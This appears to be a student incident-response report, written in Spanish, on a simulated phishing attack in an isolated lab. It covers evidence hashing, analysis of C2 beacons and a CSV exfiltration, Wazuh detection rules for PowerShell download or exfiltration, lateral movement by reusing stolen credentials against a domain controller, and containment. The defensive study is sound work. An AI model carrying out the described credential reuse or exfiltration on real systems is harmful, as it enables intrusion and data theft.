

### 3.2 Preservación de la integridad de las evidencias

Las **evidencias que procede recopilar** en este incidente son: el **correo de phishing** con sus cabeceras, la **configuración y la base de datos de GoPhish** (`config.json`, `gophish.db`), el **registro del servidor C2**, el **CSV de clientes** exfiltrado, la **telemetría de Sysmon** y las **alertas de Wazuh**, y los **artefactos volátiles del equipo víctima** (procesos, conexiones de red y tareas programadas recogidos por el script de respuesta).

Antes de analizar nada tengo que garantizar que esas evidencias no se alteran, así que sello cada fichero con su huella **SHA-256**. Mi script `generar-iocs.py` calcula los hashes de toda la campaña (procesé **306 ficheros**) y genera las tablas de indicadores `iocs.csv` e `iocs.md` (uso **SHA-256** como huella principal; el MD5 que también calculo queda solo como referencia secundaria). Además, con `cadena-custodia.py` llevo un **libro de cadena de custodia** que anota quién recogió cada evidencia, cuándo y con qué hash, identificándola por su **ruta absoluta** (para no confundir ficheros con el mismo nombre). El propio libro se **sella** con su hash, así que también detecto si alguien manipula el registro. Puedo reverificar en cualquier momento que una evidencia no se ha tocado. (En un caso real, ese sello y el libro deberían guardarse además en un **almacenamiento separado** —soporte de solo lectura o un sistema distinto— para que quien comprometa el equipo no pueda alterar a la vez la evidencia y su sello.) En la práctica registré como evidencia la configuración y la base de datos de la campaña (`config.json` y `gophish.db`) y comprobé su integridad con resultado correcto (salidas reales en `scripts/salidas-scripts.txt`):

```
[+] Evidencia registrada: config.json
    SHA-256: c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
[+] Evidencia registrada: gophish.db
    SHA-256: 1e4042887339f0faaf9fd5b6bfc4883eddbc6dd8668878a4eedb24ce2888e92d
[OK] config.json
    => INTEGRIDAD INTACTA
```

### 3.3 Análisis de un binario por su hash

Durante la ejecución, Sysmon capturó el hash SHA-256 del proceso lanzado (`systeminfo.exe`). Lo consulté en VirusTotal y devolvió **0 detecciones sobre 75 motores**, así que es un binario legítimo de Microsoft. Con esto verifico la reputación de un fichero por su huella sin necesidad de tenerlo delante.

Mi script `osint-lookup.py` me automatiza esta consulta: detecta si el indicador es una IP, un dominio o un hash y pregunta a **VirusTotal** y **AbuseIPDB**. Para validarlo lo probé también con una IP pública conocida (8.8.8.8, de Google), que AbuseIPDB reporta con un 0 % de abuso. Las salidas completas están en `scripts/salidas-scripts.txt`.

Para completar el OSINT incorporo también **Shodan**, que sirve para otra cosa distinta: no mide reputación, sino que perfila la **infraestructura expuesta a internet** de una IP o un dominio (puertos y servicios abiertos, banners, certificados). Es útil para saber a qué se enfrenta uno cuando el atacante tiene un C2 o un dominio público. Aquí hay un matiz honesto: en este laboratorio **no puedo consultar al atacante en Shodan** porque `10.10.10.100` es una **IP privada de una red aislada** y Shodan solo indexa lo que está expuesto a internet. Por eso, igual que con AbuseIPDB probé contra una IP pública real, el uso correcto de Shodan sería contra la IP o el dominio **público** del atacante una vez identificado en un caso real, nunca contra la dirección interna del escenario.

### 3.4 Análisis de las conexiones sospechosas

Para estudiar la comunicación con el atacante monté un **servidor C2 propio** (`c2-server.py`) que, a diferencia de `python3 -m http.server`, **recibe y guarda en disco** el fichero que se le envía y registra los **bytes** de cada POST. Sobre ese log, mi script `analizar-conexiones.py` separa los *beacon* de la exfiltración, identifica el origen de cada petición (el log es el del propio servidor C2, así que todo lo que aparece son peticiones **recibidas** por el atacante) y **suma los bytes realmente recibidos** —que es lo que confirma la exfiltración, no la simple existencia de la petición—. El resultado: **cuatro *beacon* periódicos** y **un POST de 148 bytes recibido y almacenado** en el C2, desde la víctima (10.10.10.50) hacia el atacante (10.10.10.100):

```
=== Exfiltracion de datos (POST recibidos) ===
  [EXFIL] 10.10.10.50 -> POST /exfil_clientes.csv  148 bytes  [RECIBIDO Y ALMACENADO]
  Total exfiltrado: 148 bytes en 1 POST
[+] CONFIRMADO: el C2 (10.10.10.100) recibio y almaceno 148 bytes exfiltrados.
    Tecnicas: C2 (T1071) y exfiltracion por el canal C2 (T1041).
```


#### Corroboración a nivel de red con Wireshark

El recuento anterior lo saco del log de mi propio C2. Para corroborarlo por otra vía, además capturé el tráfico con **Wireshark** (`tshark -i eth0 -f "tcp port 8000"`). Filtrando por `tcp.port == 8000` se ven los cuatro *beacon* periódicos (`GET /beacon?id=1..4`) hacia el atacante —el patrón típico de un canal C2 (T1071)— y, al final, el `POST` de exfiltración:



Si sigo el flujo TCP del `POST /exfil_clientes.csv` (*Follow → TCP Stream*) veo la petición entera: la cabecera **`Content-Length: 148`** y, debajo, **los datos de clientes viajando en claro** hacia el atacante. Es la prueba más directa de la exfiltración a nivel de red (T1041), y el tamaño —148 bytes— coincide exactamente con lo que registró el C2 y con el fichero que quedó guardado en `recibidos/`:



### 3.5 Detección correlada en Wazuh

Todo lo anterior lo observo, en paralelo, desde el SIEM. Para ello escribí **reglas personalizadas** (`local_rules.xml`) que, con la telemetría de Sysmon, convierten la actividad del atacante en alertas con su nivel de severidad y su técnica MITRE asociada:

| ID de regla | Descripción | Nivel | MITRE |
|-------------|-------------|-------|-------|
| 100200 | Comando de reconocimiento ejecutado | 10 | T1033 / T1087 |
| 100201 | PowerShell de descarga o exfiltración | 12 | T1059.001 / T1041 |
| 100202 | Conexión saliente a la IP del atacante (10.10.10.100) | 12 | T1071 |
| 100203 | Movimiento lateral: login de `rrhh.ana` desde la víctima al DC | 12 | T1078 / T1021.002 |

El resultado fueron **20 alertas de reconocimiento** (regla 100200) y **3 alertas de nivel 12** correspondientes a la exfiltración y el C2. Lo valioso es el detalle forense que acompaña a cada alerta. La siguiente captura, tomada de la vista *Discover* de Wazuh, muestra un único evento de reconocimiento con toda su cadena de evidencia: el comando ejecutado (`systeminfo`), su proceso padre (`cmd.exe /c systeminfo`), el usuario (`NEXORA\Administrador`), el nivel de integridad, el canal de Sysmon y el **hash SHA-256** del binario —el mismo que se verificó por OSINT en el punto 3.3—. Así se cierra el círculo entre la telemetría del endpoint y el análisis:



Un matiz importante para no sobreinterpretar las reglas: la **100201** detecta el **uso** de `Invoke-WebRequest`/`Invoke-RestMethod`, es decir, es un **indicador de actividad** (PowerShell haciendo peticiones de red), no una prueba por sí sola de que se exfiltraran datos. Esa prueba la aporta el apartado 3.4, donde el C2 **recibe y almacena** el fichero y Wireshark confirma el CSV viajando en claro. Las reglas señalan *dónde mirar*; la exfiltración se demuestra con la evidencia del dato recibido.

### 3.6 Movimiento lateral con credenciales robadas

El phishing no roba credenciales por capricho: el objetivo es **reutilizarlas para avanzar por el dominio**. Para demostrarlo, con el script `movimiento-lateral.ps1` reutilizo las credenciales de dominio de la cuenta comprometida `rrhh.ana` desde PC-RRHH-01 para **autenticarme contra el controlador de dominio DC-NEXORA** mediante `net use` sobre su recurso administrativo. No hace falta malware: basta una credencial válida y herramientas nativas de Windows.

Conviene separar dos cosas que no son lo mismo. Lo que esto demuestra es una **autenticación de red satisfactoria**: en el DC queda un **inicio de sesión 4624 de tipo 3** (sesión por red) a nombre de `rrhh.ana` con origen la IP de la víctima (10.10.10.50), y con esa sesión **enumeré recursos del dominio** (`net view` devolvió `NETLOGON` y `SYSVOL`). Eso ya prueba la reutilización de credenciales válidas, **T1078** (*Valid Accounts*). Cosa distinta es el **acceso efectivo a un recurso administrativo**: al intentar leer `\\DC-NEXORA\C$`, el acceso depende de privilegios y, como `rrhh.ana` es una cuenta de dominio **sin derechos de administrador**, se **deniega**. Dicho de otro modo, autenticarse no equivale a tener acceso privilegiado; la técnica **T1021.002** (*SMB/Windows Admin Shares*) **sí se ejerce** a nivel de **sesión SMB autenticada sobre `IPC$`** —que MITRE incluye entre los recursos administrativos de esta técnica— y de enumeración del dominio, pero **no** llega a acceso efectivo a `C$` ni a ejecución remota.

> **Sobre la detección en Wazuh.** Desplegué el agente de Wazuh **también en DC-NEXORA**, de modo que el controlador de dominio reenvía su canal *Security* al SIEM. Así, el 4624 de `rrhh.ana` no se queda solo en el registro local del DC: queda **centralizado y es visible en el propio SIEM** (vista *Discover* de Wazuh), como muestro más abajo. La **regla 100203** queda definida para elevar esa correlación a una alerta de nivel 12 con nombre propio; en este trabajo dejo documentado el evento ya recibido y consultable en Wazuh.

Al lanzar el script, el `net use` contra el DC se completa correctamente y enumera sus recursos (`NETLOGON`, `SYSVOL`) usando las credenciales robadas:



En la salida del script se ve además el intento contra `C$`, que queda **denegado** (lo esperable: la cuenta no es administradora). En el **DC-NEXORA**, esa autenticación queda registrada como un evento **4624 de tipo 3** a nombre de `rrhh.ana` (dominio NEXORA.LAB), con **dirección de red de origen 10.10.10.50** (la víctima) y autenticación Kerberos. Es la huella que confirma que las credenciales robadas sirven para **autenticarse** contra el dominio:



Con el agente de Wazuh ya desplegado en el DC, ese mismo 4624 llega **centralizado al SIEM**. La siguiente captura es el evento visto en la vista *Discover* de Wazuh (índice `wazuh-alerts-4.x`), con `targetUserName: rrhh.ana`, `logonType: 3` e `ipAddress: 10.10.10.50`. Es la diferencia entre comprobar el evento en la máquina y tenerlo recogido y consultable en el SIEM central:



### 3.7 Síntesis: de la evidencia a la conclusión

Para cerrar la investigación resumo cómo cada evidencia recogida sostiene una conclusión concreta, sin afirmar más de lo que la prueba permite:

| Evidencia | Hallazgo | Conclusión |
|-----------|----------|------------|
| Correo en MailHog + embudo de GoPhish | La víctima abrió el correo y envió sus credenciales | Phishing con robo de credenciales confirmado (T1566.002 / T1056.003) |
| Sysmon + reglas Wazuh 100200/100201 | Comandos de reconocimiento y PowerShell desde la víctima | Actividad de post-explotación en PC-RRHH-01 (T1033 / T1087 / T1059.001) |
| Log del C2 + carpeta `recibidos/` (148 bytes) + captura de Wireshark | El C2 recibió y almacenó el CSV de clientes; el POST viaja en claro (Content-Length 148) | Exfiltración de datos demostrada (T1071 / T1041) |
| Evento 4624 (tipo 3) en el DC + enumeración con `net view` | Autenticación de red satisfactoria de `rrhh.ana` desde 10.10.10.50 y enumeración de recursos del dominio; el acceso al administrativo `C$` se **deniega** (cuenta no privilegiada) | Reutilización de credenciales válidas confirmada (T1078); sesión SMB autenticada y enumeración (T1021.002), **sin** acceso privilegiado efectivo |
| SHA-256 + cadena de custodia sellada | Huella de cada evidencia, con libro protegido | Integridad verificable frente a una referencia fiable |

### 3.8 Limitaciones de la investigación

Un análisis honesto separa lo demostrado de lo que son hipótesis:

- **Confirmado por evidencias:** el robo de credenciales (GoPhish), el reconocimiento en la víctima (Sysmon/Wazuh), la **exfiltración del CSV** (recibido y almacenado por el C2, confirmado en claro con Wireshark) y la **autenticación de red contra el DC** con las credenciales robadas (evento 4624 + enumeración con `net view`).
- **Lo que NO se demostró (y no debe afirmarse):** el acceso al recurso administrativo `C$` se intentó pero quedó **denegado** (la cuenta no es administradora), así que **no hubo acceso privilegiado efectivo**; tampoco se observó **persistencia** (no apareció una tarea programada maliciosa) ni se determinó el alcance real de los datos más allá del CSV de prueba.
- **Detección en el DC:** desplegué el agente de Wazuh en DC-NEXORA, así que el 4624 de `rrhh.ana` no solo queda en el registro local del DC, sino **centralizado y consultable en el SIEM** (apartado 3.6). La regla **100203** queda definida para convertir ese evento en una alerta con nombre propio; su disparo automático depende de afinar el *decoder* de `windows_eventchannel` en el gestor, un ajuste fino que dejo como mejora —el evento que alimentaría la alerta ya está, demostrado, dentro de Wazuh.
- **Mejoras adicionales:** ampliar la captura de tráfico para estudiar el comportamiento del C2 durante un periodo más prolongado y correlacionar otros eventos de acceso a recursos compartidos (la exfiltración puntual sí quedó capturada byte a byte con Wireshark, apartado 3.4). La telemetría del propio DC **ya está centralizada y es consultable en el SIEM** (apartado 3.6).
- **Investigación adicional recomendada:** revisar otras cuentas con inicio de sesión en los equipos afectados (eventos 4624 en todo el dominio), buscar reutilización de la credencial en otros servicios y analizar en *sandbox* cualquier binario o adjunto sospechoso.

---

## 4. Respuesta y recuperación

Confirmado el incidente, el objetivo es **contener, erradicar y recuperar** con el menor daño posible y sin destruir las evidencias. El procedimiento sigue un orden deliberado:

1. **Aislamiento** del equipo comprometido, cortando su conexión de red para frenar la exfiltración y el control remoto.
2. **Bloqueo** de las comunicaciones maliciosas mediante una regla de firewall contra la IP del atacante (10.10.10.100).
3. **Revocación** de las credenciales comprometidas: restablecer la contraseña de `rrhh.ana` en el Active Directory y forzar su cambio.
4. **Eliminación** de la amenaza, retirando cualquier mecanismo de persistencia.
5. **Recuperación** del equipo a partir de un *snapshot* limpio anterior al incidente.
6. **Medidas preventivas** para que no se repita: formación, MFA, bloqueo de macros y nuevas reglas en Wazuh.

Cada decisión lleva asociada una justificación, un responsable que la autoriza, un impacto en el negocio y una forma de comprobar que ha surtido efecto:

| Fase | Acción | Quién la autoriza | Impacto en el negocio | Cómo se comprueba |
|------|--------|-------------------|-----------------------|-------------------|
| Contención | Aislar PC-RRHH-01 y bloquear la IP del atacante | Coordinador del incidente | El puesto queda sin servicio temporalmente | No hay nuevas conexiones al C2 en firewall/SIEM |
| Investigación | Preservar registros y evidencias (hash + custodia) | Analista / forense | Nulo; no afecta a producción | El libro de custodia verifica (`sello`) sin alteraciones |
| Erradicación | Revocar credenciales de `rrhh.ana` y quitar persistencia | Administrador + DPO | La usuaria reautentica con nueva contraseña | No quedan accesos con la credencial comprometida |
| Recuperación | Restaurar el equipo desde un *snapshot* verificado | Coordinador + dirección | Se recupera el puesto; posible pérdida de trabajo reciente | El hash/fecha del snapshot coincide con la línea base previa |
| Seguimiento | Supervisar alertas y accesos los días siguientes | SOC / analista | Nulo | Sin reaparición de las alertas 100200–100203 |

Para ejecutar los primeros pasos de forma ordenada y, sobre todo, **trazable**, escribí el script `respuesta-aislar.ps1`. Lo diseñé respetando el **orden de volatilidad**: primero recojo la evidencia que se perdería al apagar o aislar el equipo (conexiones de red activas —resaltando las dirigidas al atacante—, procesos en ejecución, sesiones abiertas, tareas programadas que delaten persistencia, caché ARP y tabla de rutas) y solo después bloqueo al atacante en el firewall y deshabilito los adaptadores de red. Al terminar, **sello toda la evidencia recogida con SHA-256** (`SHA256SUMS.txt`) y dejo un registro con marcas de tiempo (`respuesta.log`), para que la actuación quede documentada en la cadena de custodia. Se ejecuta así:

```powershell
.\respuesta-aislar.ps1 -IPAtacante 10.10.10.100
```

Al ejecutarlo, el script va dejando traza de cada paso —recogida de evidencia volátil, bloqueo del atacante en el firewall, aislamiento de los adaptadores y sellado final— y crea la carpeta de evidencias del incidente:



El resultado queda en `C:\Evidencias_Incidente\<fecha>\`, con el registro de acciones (`respuesta.log`) y el `SHA256SUMS.txt` que sella cada evidencia para la cadena de custodia:



Más allá de la respuesta inmediata, el caso se enmarca en la **ciberresiliencia**: anticipación (endurecimiento y formación), resistencia (segmentación y EDR), recuperación (copias de seguridad y *snapshots*) y evolución (lecciones aprendidas y mejora continua de las reglas de detección).

---

## 5. Notificación y organismos de respuesta

Un incidente con datos personales no termina en lo técnico: conlleva obligaciones de comunicación. En el plano interno informo a la dirección y aviso a los empleados con un mensaje claro y sin alarmismo. Un **modelo de comunicación interna** para los empleados sería:

> **Asunto:** Aviso de seguridad — no interactúe con el correo de «Recursos Humanos»
>
> Estimados compañeros:
>
> Hemos detectado una campaña de correos fraudulentos que **suplantan al departamento de RRHH** y piden verificar las credenciales a través de un enlace. **No pulse el enlace ni introduzca su contraseña.**
>
> Si ya lo ha hecho, **cambie su contraseña de inmediato** y avise al departamento de Informática (ext. XXX). El equipo de seguridad está gestionando el incidente y les mantendrá informados.
>
> Gracias por su colaboración. — Equipo de Seguridad de la Información

